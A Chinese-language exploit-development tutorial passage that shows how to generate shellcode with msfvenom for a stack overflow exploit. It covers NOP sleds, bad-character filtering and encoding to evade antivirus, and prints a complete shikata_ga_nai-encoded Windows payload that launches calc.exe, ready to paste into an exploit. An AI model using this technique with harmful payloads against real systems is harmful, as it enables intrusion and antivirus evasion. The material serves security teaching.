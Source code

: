 # 利用msf生成shellcode

> 一般情况下在可利用的栈空间较大时，可以在最前面先加入一定数量的'\x90'(\x90是nop的机器码)可以提高shellcode的成功率.接下来就是使用msf上的msfvenom生成shellcode，再生成exp。
msfvenom的一些参数
- -p shellcode的功能，也就是有效载荷
- -b 避免出现什么字符这里使用的是 -b '\x00'，因为shellcode会因为\x00截断
- -f 输出的shellcode格式
- --list-options 有一些shellcode需要设置一些参数可以用这个命令查看需要的参数
- -e 设置编码和解码格式。有时候为了避免一些字符需要进行编码。为了过免杀也需要编码

```powershell
//下面是使用msf生成的代码，只需要把buf部分复制到之前的代码中替代后面的字符串就能生成有一定用的exp
//这条命令会生成一个能弹一个计算器的exp
PS C:\metasploit-framework\bin> .\msfvenom.bat -p windows/exec CMD=calc.exe -b '\x00' -f python
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of python file: 1060 bytes
buf =  ""
buf += "\xba\xcb\xd0\xfc\x46\xd9\xca\xd9\x74\x24\xf4\x5b\x29"
buf += "\xc9\xb1\x31\x31\x53\x13\x03\x53\x13\x83\xeb\x37\x32"
buf += "\x09\xba\x2f\x31\xf2\x43\xaf\x56\x7a\xa6\x9e\x56\x18"
buf += "\xa2\xb0\x66\x6a\xe6\x3c\x0c\x3e\x13\xb7\x60\x97\x14"
buf += "\x70\xce\xc1\x1b\x81\x63\x31\x3d\x01\x7e\x66\x9d\x38"
buf += "\xb1\x7b\xdc\x7d\xac\x76\x8c\xd6\xba\x25\x21\x53\xf6"
buf += "\xf5\xca\x2f\x16\x7e\x2e\xe7\x19\xaf\xe1\x7c\x40\x6f"
buf += "\x03\x51\xf8\x26\x1b\xb6\xc5\xf1\x90\x0c\xb1\x03\x71"
buf += "\x5d\x3a\xaf\xbc\x52\xc9\xb1\xf9\x54\x32\xc4\xf3\xa7"
buf += "\xcf\xdf\xc7\xda\x0b\x55\xdc\x7c\xdf\xcd\x38\x7d\x0c"
buf += "\x8b\xcb\x71\xf9\xdf\x94\x95\xfc\x0c\xaf\xa1\x75\xb3"
buf += "\x60\x20\xcd\x90\xa4\x69\x95\xb9\xfd\xd7\x78\xc5\x1e"
buf += "\xb8\x25\x63\x54\x54\x31\x1e\x37\x32\xc4\xac\x4d\x70"
buf += "\xc6\xae\x4d\x24\xaf\x9f\xc6\xab\xa8\x1f\x0d\x88\x47"
buf += "\x6a\x0c\xb8\xcf\x33\xc4\xf9\x8d\xc3\x32\x3d\xa8\x47"
buf += "\xb7\xbd\x4f\x57\xb2\xb8\x14\xdf\x2e\xb0\x05\x8a\x50"
buf += "\x67\x25\x9f\x32\xe6\xb5\x43\x9b\x8d\x3d\xe1\xe3"
```

当我们用那个软件打开我们生成的exp时，会自动弹出一个计算器，如下图所示。